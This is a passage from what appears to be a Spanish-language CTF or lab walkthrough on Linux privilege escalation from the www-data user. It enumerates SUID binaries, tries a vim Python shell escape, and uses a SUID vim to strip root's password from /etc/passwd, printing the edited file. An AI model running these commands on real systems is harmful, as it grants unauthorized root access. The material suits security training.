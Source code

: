 ```php
}
?>
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Listando archivos temporales **( /tmp )**
```bash
drwx------  2 root www-data 4096 Jun 28 22:31 vNCeK9N
```

Enumerando privilegios **SUID**
```bash
find / -perm -4000 -ls 2>/dev/null
```

Tenemos el siguiente binario:
```bash
11912179   4036 -rwsr-xr-x   1 root     root      4126400 Apr  1 20:12 /usr/bin/vim.basic
```

Intentando ganar acceso como **root** sabiendo que el binario de **python3** si existe, mediante este bianrio no podemos ganar acceso como **root**
```bash
/usr/bin/vim.basic -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

Ahora intentamos modificar el archivo **passwd**, Ya que si logramos modificarlo tendiramos acceso garantizado como **root**
```bash
/usr/bin/vim.basic /etc/passwd
```

Cuando intentamos quitar la **X** de **root** nos indica que este archvio solo es de lectura, pero aun asi forzamos a guardar y salir quedando asi, sin contrasena la cuenta para el usuario **root**
```bash
cat /etc/passwd

root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```
